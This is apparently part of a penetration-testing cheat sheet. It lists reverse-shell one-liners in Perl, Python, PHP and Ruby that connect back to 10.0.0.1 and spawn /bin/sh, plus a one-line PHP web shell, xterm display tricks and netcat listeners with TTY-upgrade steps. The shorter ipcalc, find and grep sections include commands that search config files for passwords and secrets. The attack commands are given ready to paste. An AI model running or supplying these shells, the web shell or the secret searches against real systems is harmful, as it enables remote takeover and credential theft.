 <b>Perl</b>

	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

<b>Python</b>
	
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

<b>PHP</b>
	
	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
	<?php system($_GET['aloha']); ?>

<b>Ruby</b>
	
	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

<b>xterm</b>

	xterm -display 10.0.0.0:1
	xhost +targetip
	Xnest :1  #Listener

<h3 id="listeners">Listeners</h3>

<b>stty</b>

	nc -nlvp 4444
	python -c 'import pty;pty.spawn("/bin/bash")'
	Ctrl+Z
	stty raw -echo
	fg
	
	export SHELL=bash
	export TERM=xterm-256color

<b>rlwrap</b>
	
	rlwrap nc -nlvp 4444

<h3 id="ipcalc">ipcalc</h3>

	ipcalc 122.64.0.0 - 122.95.255.255
	ipcalc 122.64.0.0/11

<h3 id="find">find</h3>
	
	find / -name foo.txt -type f -print #print not necessary
	find /opt /usr /var -name config -type f
	find . -iname config #search case insensitive

<h3 id="grep">grep</h3>

	grep 'password' /etc/config #search for 'password' in config (quotes not necessary)
	grep 'password' * #search all files in current directory
	egrep 'password|secret' * #search multiple strings
